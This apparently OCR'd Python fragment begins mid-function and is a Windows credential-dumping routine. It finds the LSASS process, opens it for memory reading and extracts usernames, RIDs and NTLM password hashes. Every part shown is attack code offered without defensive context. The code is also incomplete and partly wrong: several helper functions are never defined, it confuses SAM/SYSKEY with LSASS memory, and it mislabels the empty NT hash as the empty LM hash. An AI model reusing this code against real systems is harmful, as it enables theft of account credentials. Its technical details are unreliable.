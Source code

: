 ```python
    
    # Step 2: Open LSASS process
    lsass_pid = _get_lsass_pid()
    if not lsass_pid:
        return {"error": "LSASS not found"}
    
    # Step 3: Dump SAM from memory
    hashes = _dump_sam_from_memory(lsass_pid)
    
    return {"hashes": hashes}

def _get_lsass_pid():
    """Find LSASS.exe PID"""
    import psutil
    
    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'].lower() == 'lsass.exe':
            return proc.info['pid']
    return None

def _dump_sam_from_memory(lsass_pid):
    """Extract SAM hashes from LSASS memory"""
    kernel32 = ctypes.windll.kernel32
    advapi32 = ctypes.windll.advapi32
    
    # Open LSASS with memory read access
    PROCESS_VM_READ = 0x0010
    PROCESS_QUERY_INFORMATION = 0x0400
    
    process_handle = kernel32.OpenProcess(
        PROCESS_VM_READ | PROCESS_QUERY_INFORMATION,
        False,
        lsass_pid
    )
    
    if not process_handle:
        return []
    
    # Search for SAM structures in memory
    hashes = []
    
    # Get SYSKEY from registry (in memory)
    syskey = _get_syskey_from_memory(process_handle)
    
    # Find and decrypt user hashes
    users = _find_user_structures(process_handle)
    
    for user in users:
        username = user['name']
        rid = user['rid']
        v_value = user['v_value']  # Encrypted hash
        
        # Decrypt the hash
        if syskey and v_value:
            ntlm_hash = _decrypt_hash(v_value, rid, syskey)
            hashes.append({
                'username': username,
                'rid': rid,
                'ntlm': ntlm_hash.hex() if ntlm_hash else 'EMPTY',
                'lm': '31d6cfe0d16ae931b73c59d7e0c089c0'  # Empty LM hash
            })
    
    kernel32.CloseHandle(process_handle)
```